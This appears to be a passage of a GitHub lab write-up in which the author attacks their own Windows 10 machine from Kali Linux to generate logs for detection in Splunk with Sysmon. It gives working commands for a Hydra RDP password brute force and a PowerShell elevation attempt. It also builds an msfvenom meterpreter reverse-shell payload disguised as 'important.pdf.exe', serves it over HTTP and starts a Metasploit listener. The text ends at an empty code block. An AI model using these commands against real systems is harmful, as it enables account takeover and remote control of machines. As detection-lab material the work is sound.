 > **Note:**
> To perform all these attack simulation , I created an local user "testuser".

 
### 📍Brute Force Attack
This is an hacking attack that uses trial and error to crack passwords and login credentials. For this attack ,I use "Hydra" tool that is an parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible. In this case, the service attacked is Remote Desktop Protocol(RDP). To generate the logs of failed login attempts for SIEM detection.

<b>Set-up Requirements</b>
<li>Windows 10- </li>
1.Enable Remote Desktop (Run:SystemPropertiesRemote.exe).

2.Ensure firewall allow RDP port-3389.

<li>Kali Linux-</li>
1.First, we check rdp port is open or not using nmap.

  ```bash
nmap -p 3389 <Windows_IP>
```
2.Run Hydra-
```bash
hydra -t 4 -V  -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_ip>
```

### 📍Privilege Escalation
Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. There are many techniques used to get privilege escalation but I use Bypass user account control.

<b>Step1:</b> Login testuser
  If brute force attack is successful ,then we can login into the system using the credentials which we have found during the brute force attack.
  
<b>Step2:</b> Attempt to Escalate privilege
   Once you're inside as "testuser", we can execute the command -
```bash
powershell -Command "Start-Process notepad.exe -Verb runAs"
```
This PowerShell command is used to attempt privilege escalation by launching notepad.exe with administrator rights. Attackers often try to run programs with elevated rights using built-in tools. Even if they fail, the attempt is logged.

### 📍Suspicious PowerShell Execution (Malware Simulation)
In this attack, Simulate malware execution via PowerShell on the Windows 10 target, using a reverse shell payload delivered from the Kali Linux attacker machine.
This mimics what real attackers do after gaining access, and generates logs you can detect in Splunk using Sysmon.

<b>Step1:</b> On kali
In this ,first create an payload :
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe -o important.pdf.exe
```
<b>Step2:</b> Host the payload on web server
for this ,we can use many services like apache2,python3. I used python3 because it is easy for testing. we need to first to the directory where payload exist then use python3-
```bash
python3 -m http.server 8000
```
<b>Step3:</b> Set-up Metasploit listener
```bash
msfconsole
```
```bash
```